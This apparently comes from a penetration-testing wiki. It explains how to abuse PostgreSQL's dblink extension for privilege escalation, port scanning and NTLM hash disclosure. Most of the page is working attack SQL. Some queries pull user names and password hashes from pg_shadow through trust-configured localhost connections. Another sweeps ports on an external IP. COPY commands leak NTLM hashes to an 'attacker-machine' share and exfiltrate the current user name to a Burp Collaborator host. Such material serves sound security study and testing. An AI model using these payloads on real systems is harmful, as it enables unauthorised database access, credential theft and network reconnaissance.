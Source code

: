 # Network - Privesc, Port Scanner and NTLM chanllenge response disclosure

Since **PostgreSQL 9.1**, installation of additional modules is simple. [Registered extensions like `dblink`](https://www.postgresql.org/docs/current/contrib.html) can be installed with [`CREATE EXTENSION`](https://www.postgresql.org/docs/current/sql-createextension.html):

```sql
CREATE EXTENSION dblink;
```

Once you have dblink loaded you could be able to perform some interesting tricks:

### Privilege Escalation

The file `pg_hba.conf` could be bad configured **allowing connections** from **localhost as any user** without needing to know the password. This file could be typically found in `/etc/postgresql/12/main/pg_hba.conf` and a bad configuration looks like:

```text
local    all    all    trust
```

_Note that this configuration is commonly used to modify the password of a db user when the admin forget it, so sometimes you may find it.  
Note also that the file pg\_hba.conf is readable only by postgres user and group and writable only by postgres user._

This case is **useful if** you **already** have a **shell** inside the victim as it will allow you to connect to postgresql database.

Another possible misconfiguration consist on something like this:

```text
host    all     all     127.0.0.1/32    trust
```

As it will allow everybody from the localhost to connect to the database as any user.  
In this case and if the **`dblink`** function is **working**, you could **escalate privileges** by connecting to the database through an already established connection and access data shouldn't be able to access:

```sql
SELECT * FROM dblink('host=127.0.0.1
                          user=postgres
                          dbname=postgres',
                         'SELECT datname FROM pg_database')
                      RETURNS (result TEXT);

SELECT * FROM dblink('host=127.0.0.1
                          user=postgres
                          dbname=postgres',
                         'select usename, passwd from pg_shadow')
                      RETURNS (result1 TEXT, result2 TEXT);
```

**Find** [**more information about this attack in this paper**](http://www.leidecker.info/pgshell/Having_Fun_With_PostgreSQL.txt)**.**

### Port Scanning

Abusing `dblink_connect` you could also **search open ports**. If that **function doesn't work you should try to use `dblink_connect_u()`** as the documentation says that  _`dblink_connect_u()` is identical to `dblink_connect()`, except that it will allow non-superusers to connect using any authentication method_.

```sql
SELECT * FROM dblink_connect('host=216.58.212.238
                                  port=443
                                  user=name
                                  password=secret
                                  dbname=abc
                                  connect_timeout=10');
//Different response
// Port closed
RROR:  could not establish connection
DETAIL:  could not connect to server: Connection refused
	Is the server running on host "127.0.0.1" and accepting
	TCP/IP connections on port 4444?

// Port Filtered/Timeout
ERROR:  could not establish connection
DETAIL:  timeout expired

// Accessing HTTP server
ERROR:  could not establish connection
DETAIL:  timeout expired

// Accessing HTTPS server
ERROR:  could not establish connection
DETAIL:  received invalid response to SSL negotiation:
```

Note that **before** being able to use `dblink_connect` or `dblink_connect_u` you may need to execute:

```text
CREATE extension dblink;
```

### UNC path - NTLM hash disclosure

```sql
-- can be used to leak hashes to Responder/equivalent
CREATE TABLE test();
COPY test FROM E'\\\\attacker-machine\\footestbar.txt';
```

```sql
-- to extract the value of user and send it to Burp Collaborator
CREATE TABLE test(retval text);
CREATE OR REPLACE FUNCTION testfunc() RETURNS VOID AS $$ 
DECLARE sqlstring TEXT;
DECLARE userval TEXT;
BEGIN 
SELECT INTO userval (SELECT user);
sqlstring := E'COPY test(retval) FROM E\'\\\\\\\\'||userval||E'.xxxx.burpcollaborator.net\\\\test.txt\'';
EXECUTE sqlstring;
END;
$$ LANGUAGE plpgsql SECURITY DEFINER;
SELECT testfunc();
```


